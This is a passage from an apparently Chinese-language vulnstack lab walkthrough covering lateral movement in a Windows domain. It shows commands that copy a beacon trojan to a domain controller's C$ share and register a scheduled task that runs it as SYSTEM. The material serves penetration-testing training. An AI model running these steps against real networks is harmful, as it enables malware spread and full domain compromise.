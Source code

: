 ​	

使用之前的WebHTTP监听创建一个木马并上传至PC机中

![image-20231219170542530](vulnstack靶场系列四/image-20231219170542530.png)



在通过PC机将木马移动至域控的C盘目录

`shell copy C:\\beacon_x64.exe  \\WIN-ENS2VR5TR3N\c$`

![image-20231219170932294](vulnstack靶场系列四/image-20231219170932294.png)



在域控创建计划任务执行木马：`schtasks /create /s WIN-ENS2VR5TR3N /ru "SYSTEM" /tn mytask /sc ONCE /st 17:55 /tr C:\\beacon_x64.exe /F`

![image-20231220175821967](vulnstack靶场系列四/image-20231220175821967.png)
